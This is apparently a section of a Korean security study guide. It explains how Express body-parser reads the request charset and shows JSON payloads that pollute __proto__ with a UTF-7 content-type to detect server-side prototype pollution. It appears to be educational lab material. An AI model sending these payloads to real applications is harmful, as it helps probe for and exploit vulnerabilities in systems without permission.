#### 05. charset 재정의

##### Expressjs

- Express에서 body-parser 모듈의 lib/types/json.js 소스코드와 /lib/utils.js 를 보면 아래와같이 되어있습니다.
  - 'charset' 속성에 Prototype pollution 악용을 시도해볼 수 있습니다.

```js
var charset = getCharset(req) || "utf-8";

// lib/utils.js 코드
function getCharset(req) {
  try {
    return (contentType.parse(req).parameters.charset || "").toLowerCase();
  } catch (e) {
    return undefined;
  }
}

read(req, res, next, parse, debug, {
  encoding: charset,
  inflate: inflate,
  limit: limit,
  verify: verify,
});
```

- Prototype pollution 악용 시도

1. 응답에 반영되는 속성에 임의의 UTF-7 인코딩 문자열을 추가합니다. 예를 들어, `foo`UTF-7에서는 `+AGYAbwBv-`.

```js
{ "sessionId":"0123456789", "username":"wiener", "role":"+AGYAbwBv-" }
```

2. 요청을 보냅니다. 서버는 기본적으로 UTF-7 인코딩을 사용하지 않으므로, 이 문자열은 인코딩된 형태로 응답에 나타나야 합니다.

3. `content-type`UTF-7 문자 집합을 명시적으로 지정하는 속성으로 프로토타입을 오염시켜봅니다.

```js
{
    "sessionId":"0123456789",
    "username":"wiener",
    "role":"default",
    "__proto__":{
        "content-type": "application/json; charset=utf-7"
    }
}
```

4. 첫 번째 요청을 반복합니다. 프로토타입을 성공적으로 오염시켰다면 이제 응답에서 UTF-7 문자열이 디코딩되었을 것입니다.

```js
{
    "sessionId":"0123456789",
    "username":"wiener",
    "role":"foo"
}
```
